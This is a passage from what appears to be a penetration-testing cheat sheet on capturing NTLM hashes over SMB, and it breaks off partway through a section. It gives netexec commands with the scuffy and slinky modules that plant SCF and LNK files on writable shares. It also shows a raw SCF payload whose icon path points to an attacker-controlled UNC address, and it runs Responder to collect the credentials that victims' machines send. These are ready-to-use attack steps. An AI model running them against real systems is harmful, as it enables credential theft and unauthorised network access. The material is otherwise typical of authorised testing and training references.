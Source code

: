 #### SCF

If `WRITE` access to the `Users` share is available.

{% tabs %}
{% tab title="1. Create SCF" %}
{% code overflow="wrap" %}
```bash
nxc smb <TARGET-IP> -u 'guest' -p '' -M scuffy -o NAME=README SERVER=<SMB-SERVER-IP>
```
{% endcode %}
{% endtab %}

{% tab title="2. Listen" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo responder -I tun0
</strong></code></pre>
{% endtab %}

{% tab title="3. Clean" %}
{% code overflow="wrap" %}
```bash
nxc smb <TARGET-IP> -u 'guest' -p '' -M scuffy -o NAME=README SERVER=<SMB-SERVER-IP> CLEANUP=True
```
{% endcode %}
{% endtab %}
{% endtabs %}

The example below assumes that the share is [locally mounted](smb-139-445.md#operations) and `WRITE` access is available for the `SMB/Users/WritableDir` folder, but not for the `Users` share.

{% tabs %}
{% tab title="1. Create SCF" %}
```bash
[Shell]
Command=2
IconFile=\\10.10.10.10\share\test.io
[Taskbar]
Command=ToggleDesktop
```
{% endtab %}

{% tab title="2. Listen" %}
```bash
sudo responder -I tun0
```
{% endtab %}

{% tab title="3. Transfer" %}
```bash
sudo cp example.scf SMB/Users/WritableDir
```
{% endtab %}
{% endtabs %}

#### LNK

{% tabs %}
{% tab title="1. Uploiad LNK" %}
{% code overflow="wrap" %}
```bash
nxc smb 172.16.10.3 -u user1 -p user1_pass -M slinky -o SERVER=10.10.10.10 NAME=README
```
{% endcode %}
{% endtab %}
